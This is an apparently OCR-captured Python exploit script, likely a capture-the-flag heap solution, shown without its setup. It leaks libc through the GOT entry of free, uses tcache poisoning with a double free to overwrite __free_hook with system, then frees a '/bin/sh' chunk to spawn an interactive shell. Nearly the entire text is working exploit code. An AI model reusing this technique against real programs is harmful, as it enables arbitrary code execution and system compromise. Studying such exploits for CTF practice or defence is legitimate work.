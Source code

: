 ```python
free(11 + offset1) # to deplete tcache

for i in range(4):
    add(0x10, b'b') # 12~15 to deplete

add(0x10, b'c') # 17
add(0x18, p64(17 + offset1) + p64(heap_base + 0x6a0) + p64(elf.got['free'])) # 18
show(17 + offset1)
sleep(0.1)
ru(b':')
free_ = uu64(rc(6))
info("_free", free_)

# system
libc_base = free_ - libc.sym["free"]
system_ = libc_base + libc.sym["system"]
__free_hook = libc_base + libc.sym["__free_hook"]

offset2 = 28

# tcache poisioning
for i in range(10):
    add(0x40, b'a')

for i in range(1, 8):
    free(i + offset2) # tcache

free(8 + offset2)
free(9 + offset2)
free(8 + offset2)

for i in range(7):
    add(0x40, b'a') # offset2 + 10 
add(0x40, p64(__free_hook))
add(0x40, b'a')
add(0x40, b'aa')
add(0x40, p64(system_))

info("__free_hook", __free_hook)
info("system", system_)
add(0x30, b'/bin/sh\x00')
free(0x32)
io.interactive()
```